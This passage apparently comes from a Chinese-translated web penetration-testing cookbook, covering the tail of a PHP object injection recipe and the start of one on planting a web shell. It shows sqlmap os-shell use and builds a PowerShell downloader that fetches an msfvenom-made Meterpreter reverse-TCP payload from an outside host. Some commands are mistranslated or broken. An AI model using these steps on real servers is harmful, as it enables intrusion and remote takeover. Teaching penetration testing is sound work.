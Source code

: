 8.  现在我们看到命令正在执行，输出如下：

![](assets/8cb4d30f-41cf-41c2-94f9-e2aa8e980bee.png)

# 另见

*   [https://mukarramkhalid.com/php-object-injection-serialization/#poi-示例 2](https://mukarramkhalid.com/php-object-injection-serialization/#poi-example-2)
*   [https://crowdshield.com/blog.php?name=exploiting-php 序列化对象注入漏洞](https://crowdshield.com/blog.php?name=exploiting-php-serialization-object-injection-vulnerabilities)
*   [https://www.evonide.com/how-we-broke-php-hacked-pornhub-and-earned-20000-dollar/](https://www.evonide.com/how-we-broke-php-hacked-pornhub-and-earned-20000-dollar/)

# 使用 web 外壳的后门

Shell 上传很有趣；上传 web shell 使我们能够浏览服务器。在本教程中，您将学习一些在服务器上上传 shell 的方法。

# 怎么做。。。

以下步骤演示了 web Shell 的使用：

1.  我们首先通过运行带有`--is-dba`标志的 sqlmap 来检查用户是否是 DBA：

![](assets/19a19e66-693e-4efd-ab17-53108d5e0191.png)

2.  然后，我们使用`os-shell`，这会提示我们使用 shell。然后，我们运行命令以检查我们是否具有特权：

```
 whoami
```

以下屏幕截图是上述命令的示例：

![](assets/bcc389a3-6623-49f8-9750-e21e2cbf1cd5.png)

3.  幸运的是，我们有管理员权限。但是我们没有对外部用户可用的 RDP。让我们尝试使用 PowerShell 访问 MeterMeter 的另一种方法。

4.  我们首先创建一个`System.Net.WebClient`对象，并将其保存为系统上的 PowerShell 脚本：

```
 echo $WebClient = New-Object System.Net.WebClient > abc.ps1
```

5.  现在我们使用以下命令通过`msfvenom`创建我们的`meterpreter.exe`：

```
 msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP Address>
    LPORT=<Your Port to Connect On> -f exe > shell.exe
```

6.  现在，我们需要下载 MeterMeter，所以我们在`abc.ps1`脚本中附加以下命令：

```
 echo $WebClientDownloadFile(http://odmain.com/meterpreter.exe,
        "D:\video\b.exe") >> abc.ps1
```
